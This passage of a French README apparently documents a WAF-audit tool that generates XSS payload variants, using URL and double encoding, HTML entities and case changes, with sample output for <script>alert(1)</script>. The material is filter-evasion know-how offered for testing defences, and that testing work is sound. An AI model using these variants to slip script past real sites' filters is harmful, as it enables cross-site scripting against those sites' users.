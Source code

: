 ### Audit de WAF
- **Tests de règles** : Vérifier l'efficacité des règles de filtrage
- **Détection de failles** : Identifier les patterns non couverts
- **Validation de configuration** : Tester les paramètres de sécurité

## Exemple de sortie

### Pour le payload `<script>alert(1)</script>`

```
[*] Génération de variations pour le payload : '<script>alert(1)</script>'

--- Encodage URL ---
  - Encodage Standard: %3Cscript%3Ealert%281%29%3C%2Fscript%3E
  - Encodage Double: %253Cscript%253Ealert%25281%2529%253C%252Fscript%253E
  - Encodage avec '+': %3Cscript%3Ealert%281%29%3C%2Fscript%3E

--- Encodage Entités HTML ---
  - Décimal: &#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
  - Hexadécimal: &#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;

--- Variations de Cas ---
  - <SCRIPT>ALERT(1)</SCRIPT>
  - <script>alert(1)</script>
  - <Script>Alert(1)</Script>
  - <ScRiPt>AlErT(1)</ScRiPt>
  [... autres variations ...]
```

## Techniques de contournement supportées

### 1. Encodage URL
- **Standard (RFC 3986)** : Encode les caractères spéciaux
- **Double encodage** : Encode le résultat de l'encodage
- **Plus encoding** : Utilise '+' pour les espaces

### 2. Entités HTML
- **Décimal** : `&#65;` pour 'A'
- **Hexadécimal** : `&#x41;` pour 'A'
- **Nommées** : `&lt;` pour '<' (non implémenté)

### 3. Variations de casse
- **Alternance** : `ScRiPt`
- **Toutes majuscules** : `SCRIPT`
- **Toutes minuscules** : `script`
- **Première lettre** : `Script`
